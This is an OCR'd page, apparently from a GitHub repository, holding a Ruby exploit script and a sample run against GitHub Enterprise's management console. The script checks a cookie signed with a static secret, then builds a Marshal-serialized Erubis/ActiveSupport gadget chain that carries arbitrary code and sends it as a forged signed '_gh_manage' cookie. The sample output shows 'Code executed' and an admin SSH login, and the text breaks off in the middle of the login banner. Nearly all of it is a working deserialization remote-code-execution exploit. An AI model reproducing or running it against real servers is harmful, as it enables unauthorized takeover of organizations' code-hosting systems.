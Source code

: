 ```
# Parse the cookie
begin
  value = res['Set-Cookie'].split("=", 2)[1]
  data = CGI.unescape(value.split("--").first)
  hmac = value.split("--").last.split(";", 2).first
  expected_hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, SECRET, data)
  not_vulnerable if expected_hmac != hmac
rescue
  not_vulnerable
end
puts "  =&gt; Host is vulnerable"
# Now construct the cookie
puts "[+] Assembling magic cookie..."
# Stubs, since we don't want to execute the code locally.
module Erubis;class Eruby;end;end
module ActiveSupport;module Deprecation;class DeprecatedInstanceVariableProxy;end;end;end
erubis = Erubis::Eruby.allocate
erubis.instance_variable_set :@src, "#{code}; 1"
proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
proxy.instance_variable_set :@instance, erubis
proxy.instance_variable_set :@method, :result
proxy.instance_variable_set :@var, "@result"
session = {"session_id" =&gt; "", "exploit" =&gt; proxy}
# Marshal session
dump = [Marshal.dump(session)].pack("m")
hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, SECRET, dump)
puts "[+] Sending cookie..."
rqst = Net::HTTP::Get.new("/")
rqst['Cookie'] = "_gh_manage=#{CGI.escape("#{dump}--#{hmac}")}"
res = http.request(rqst)
if res.code == "302"
  puts "  =&gt; Code executed."
else
  puts "  =&gt; Something went wrong."
end
```

**用法示例 **



```
iblue@raven:/tmp$ ruby exploit.rb 192.168.1.165 "%x(id &gt; /tmp/pwned)"
                     ___.   .__
  ____ ___  ________ _ |__ |  |  __ __   ____
_/ __ \  /  /__   | __ |  | |  |  _/ __ 
  ___/ &gt;    &lt;  / __ | _   |_|  |  /  ___/
 ___  &gt;__/_ (____  /___  /____/____/  ___  &gt;
     /      /     /    /                 /
[+] Checking if 192.168.1.165 is vulnerable...
  =&gt; Following redirect to /setup/...
  =&gt; Following redirect to https://192.168.1.165:8443/setup/unlock?redirect_to=/...
  =&gt; Host is vulnerable
[+] Assembling magic cookie...
[+] Sending cookie...
  =&gt; Code executed.
iblue@raven:/tmp$ ssh -p122 admin@192.168.1.165
     ___ _ _   _  _      _      ___     _                    _
    / __(_) |_| || |_  _| |__  | __|_ _| |_ ___ _ _ _ __ _ _(_)___ ___
   | (_ | |  _| __ | || | '_  | _|| '   _/ -_) '_| '_  '_| (_-&lt;/ -_)
    ___|_|__|_||_|_,_|_.__/ |___|_||______|_| | .__/_| |_/__/___|
                                                   |_|
Administrative shell access is permitted for troubleshooting and performing
documented operations procedures only. Modifying system and application files,
running programs, or installing unsupported software packages may void your
```